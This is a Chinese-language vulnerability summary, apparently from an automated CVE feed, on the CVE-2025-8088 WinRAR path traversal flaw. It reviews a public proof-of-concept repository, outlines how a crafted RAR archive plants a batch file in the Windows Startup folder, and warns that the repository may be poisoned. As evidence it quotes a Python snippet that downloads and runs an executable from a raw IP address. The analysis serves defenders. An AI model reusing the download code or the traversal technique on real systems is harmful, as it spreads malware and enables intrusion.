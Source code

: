 ## CVE-2025-8088-WinRAR路径遍历

**漏洞编号:** CVE-2025-8088

**漏洞类型:** 路径遍历

**影响应用:** WinRAR

**危害等级:** 高危，允许攻击者执行任意代码

**影响版本:** <= 7.12

**利用条件:** 需要用户交互（解压恶意RAR文件）

**POC 可用性:** 是

**投毒风险:** 70%

## 详情

CVE-2025-8088 是 WinRAR Windows 版本中的一个路径遍历漏洞，允许攻击者通过精心构造的恶意压缩文件执行任意代码。攻击者可以利用此漏洞将恶意文件复制到敏感目录，例如 Windows 启动文件夹，从而实现持久化。从搜索结果来看，该漏洞已被积极利用，并且有公开的 POC 代码。

**有效性：**
提供的 POC 代码似乎有效。漏洞库信息和搜索结果都表明这是一个真实的、已被利用的漏洞。POC 代码通过创建包含路径遍历序列的 RAR 文件，将 payload.bat 文件放置到启动目录中，从而实现任意代码执行。

**投毒风险：**
该仓库存在一定的投毒风险。虽然主要功能是利用 CVE-2025-8088 漏洞，但代码中存在从远程 URL 下载可执行文件的操作：

```python
url = "http://176.65.132.139/file_cache.exe"
...
with requests.get(url, stream=True) as r:
    with open(local_path, "wb") as f:
        for chunk in r.iter_content(chunk_size=8192):
            f.write(chunk)
```

这段代码会从 `http://176.65.132.139/file_cache.exe` 下载一个名为 `cache_register.exe` 的可执行文件并执行。如果该服务器被攻陷，或者攻击者恶意修改该 URL，则可能导致用户下载并执行恶意代码，从而实现投毒。此外，config.py和POC也存在后门代码的可能性。

**利用方式：**
1.  **生成 Payload:**  `generate_payload()` 函数创建一个简单的批处理文件 (payload.bat)，该文件会在后台启动记事本（notepad.exe）。
2.  **生成 Decoy 文件:**  `generate_decoys()` 函数创建多个诱饵文件（文本文件），这些文件被设计成在解压后看起来像是正常的文件，以迷惑用户。
3.  **创建 RAR 头:** `create_rar_header()` 函数创建自定义的 RAR 文件头，其中包含路径遍历字符串，指向 Windows 启动目录。这些头信息会被添加到压缩文件中，以便在解压缩时将文件写入指定位置。
4.  **构建 Exploit 压缩包:**  `build_exploit_archive()` 函数将所有诱饵文件和 payload 文件打包到一个 RAR 压缩文件中。关键在于诱饵文件的文件头包含路径遍历字符，使得这些文件在解压时会被写入到 Windows 启动目录。
5.  **用户交互：** 攻击者将此恶意 RAR 文件发送给受害者。当受害者使用 WinRAR 解压此文件时，由于文件头中包含路径遍历，payload.bat 文件会被写入到 Windows 启动目录。
6.  **代码执行：** 下次系统启动时，Windows 会自动执行启动目录中的所有程序，包括 payload.bat，从而在后台启动记事本。

**项目地址:** [haspread/CVE-2025-8088](https://github.com/haspread/CVE-2025-8088)

**漏洞详情:** [CVE-2025-8088](https://nvd.nist.gov/vuln/detail/CVE-2025-8088)